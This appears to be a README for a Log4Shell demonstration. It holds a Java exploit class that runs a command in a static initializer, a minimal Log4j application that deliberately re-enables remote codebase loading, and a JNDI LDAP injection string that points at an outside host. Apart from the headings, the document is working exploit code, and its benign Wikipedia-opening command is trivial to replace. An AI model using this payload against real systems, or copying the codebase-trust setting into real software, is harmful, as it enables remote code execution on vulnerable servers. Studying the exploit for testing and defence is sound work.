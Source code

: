 # Simple Log4Shell LDAP server

## Exploit class to execute it remotly
```java
public class Magic {
  static {
    try {
      // Execute the `open` command to open a funny wikipedia link.
      String[] cmds = { "open", "https://en.wikipedia.org/wiki/Ostrich_algorithm" };
      Runtime.getRuntime().exec(cmds).waitFor();
    } catch (Exception e) {
      e.printStackTrace();
    } 
  }
}
```

## Minimum vulnerable application
```java
public class Log4j {

    private static final Logger logger = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // Log4Shell will not be able to load remote code from untrusted code bases since the Java 8 version.
        // This statement will disable that security path to be able to test it on Java 8 and higher.
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

        Scanner scanner = new Scanner(System.in);
        while (true) {
            System.out.println("Introduce a message to log:");
            String line = scanner.nextLine();
            logger.error(line);
        }
    }

}
```

## Vulnerable message example

You will need to replace the `nurio.me` domain to your web server storing the exploit class (`Magic.class` for this example)
```
${jndi:ldap://nurio.me/l4s/a}
```
